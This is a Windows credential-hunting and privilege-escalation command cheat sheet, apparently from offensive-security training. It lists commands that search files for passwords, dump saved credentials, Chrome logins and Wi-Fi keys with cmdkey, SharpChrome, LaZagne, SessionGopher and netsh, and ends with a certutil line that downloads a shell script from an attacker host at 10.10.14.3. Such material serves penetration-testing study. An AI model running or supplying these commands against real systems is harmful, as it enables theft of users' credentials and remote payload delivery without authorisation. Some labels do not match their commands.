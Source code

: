 > Decrypting PowerShell credentials

`cd c:\Users\lafi\Documents & findstr /SI /M "password" *.xml *.ini *.txt`

> Searching file contents for a string

`findstr /si password *.xml *.ini *.txt *.config`

> Searching file contents for a string

`findstr /spin "password" *.*`

> Searching file contents for a string

`select-string -Path C:\Users\lafi\Documents\*.txt -Pattern password`

> Search file contents with PowerShell

`dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`

> Search for file extensions

`where /R C:\ *.config`

> Search for file extensions

`Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore`

> Search for file extensions using PowerShell

`cmdkey /list`

> List saved credentials

`.\SharpChrome.exe logins /unprotect`

> Retrieve saved Chrome credentials

`.\lazagne.exe -h`

> View LaZagne help menu

`.\lazagne.exe all`

> Run all LaZagne modules

`Invoke-SessionGopher -Target WINLPE-SRV01`

> Running SessionGopher

`netsh wlan show profile`

> View saved wireless networks

`netsh wlan show profile ilfreight_corp key=clear`

> Retrieve saved wireless passwords

`certutil.exe -urlcache -split -f [http://10.10.14.3:8080/shell.bat](http://10.10.14.3:8080/shell.bat) shell.bat`

> Transfer file with certutil

`certutil -encode file1 encodedfile`
